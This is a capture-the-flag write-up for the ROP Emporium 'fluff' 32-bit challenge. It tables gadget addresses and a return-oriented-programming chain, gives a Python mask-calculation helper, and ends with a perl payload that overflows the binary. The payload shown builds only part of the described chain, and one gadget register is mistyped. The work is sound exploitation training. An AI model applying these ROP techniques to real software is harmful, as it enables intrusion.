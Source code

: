 # fluff
The challenge is available [here](https://ropemporium.com/challenge/fluff.html).

## Black-Box Test

## In-depth research

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [exc], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                          | Note                                                                                                                                                                                                                                                                                |
|----|-------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                    |                                                                                                                                                                                                                                                                                     |
| 2  | pop_bswap_cx, `memory4string`       | `memory4string` in big-endian.                                                                                                                                                                                                                                                      |
| 3  | pop_bp, get_mask(`"f"`)             | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xdeadbeef` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 5  | exchange_byte                       | After this operation, the string will be `"f"`                                                                                                                                                                                                                                      |
| 6  | pop_bswap_cx, `memory4string+1`     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                                    |
| 7  | pop_bp, get_mask(`"l"`)             |                                                                                                                                                                                                                                                                                     |
| 8  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 9  | exchange_byte                       | After this operation, the string will be `"fl"`                                                                                                                                                                                                                                     |
| 10 | pop_bswap_cx, `memory4string+2`     | `memory4string+2` in big-endian.                                                                                                                                                                                                                                                    |
| 11 | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 12 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 13 | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 14 | pop_bswap_cx, `memory4string+3`     | `memory4string+3` in big-endian.                                                                                                                                                                                                                                                    |
| 15 | pop_bp, get_mask(`"g"`)             |                                                                                                                                                                                                                                                                                     |
| 16 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 17 | exchange_byte                       | After this operation, the string will be `"flag"`                                                                                                                                                                                                                                   |
| 18 | pop_bswap_cx, `memory4string+4`     | `memory4string+4` in big-endian.                                                                                                                                                                                                                                                    |
| 19 | pop_bp, get_mask(`"."`)             |                                                                                                                                                                                                                                                                                     |
| 20 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 21 | exchange_byte                       | After this operation, the string will be `"flag."`                                                                                                                                                                                                                                  |
| 22 | pop_bswap_cx, `memory4string+5`     | `memory4string+5` in big-endian.                                                                                                                                                                                                                                                    |
| 23 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 24 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 25 | exchange_byte                       | After this operation, the string will be `"flag.t"`                                                                                                                                                                                                                                 |
| 26 | pop_bswap_cx, `memory4string+6`     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                                    |
| 27 | pop_bp, get_mask(`"x"`)             |                                                                                                                                                                                                                                                                                     |
| 28 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 29 | exchange_byte                       | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                                |
| 30 | pop_bswap_cx, `memory4string+7`     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                                    |
| 31 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 32 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 33 | exchange_byte                       | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                               |
| 34 | print_file, `"XXXX"`, memory4string |                                                                                                                                                                                                                                                                                     |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!



```python
def get_mask(target, value):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]

    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits

        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    mask = int(mask_bits, 2)
    return mask

for c in "flag.txt":
    print(hex(get_mask(c, 0xb0bababa)), c)
```

```
perl -e 'print "X"x44 . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\x55\x85\x04\x08" ."\xbb\x85\x04\x08" . "\xdd\x46\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x19" . "\x55\x85\x04\x08". "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```